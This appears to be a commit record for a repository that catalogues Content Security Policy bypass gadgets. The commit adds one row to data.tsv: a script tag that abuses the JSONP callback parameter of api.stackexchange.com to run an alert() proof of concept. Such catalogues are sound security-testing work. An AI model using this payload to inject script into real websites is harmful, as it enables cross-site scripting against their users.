

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added api.stackexchange.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 18: api.stackexchange.com | <script src="https://api.stackexchange.com/2.2/me?callback=alert(1)-"></script>
```
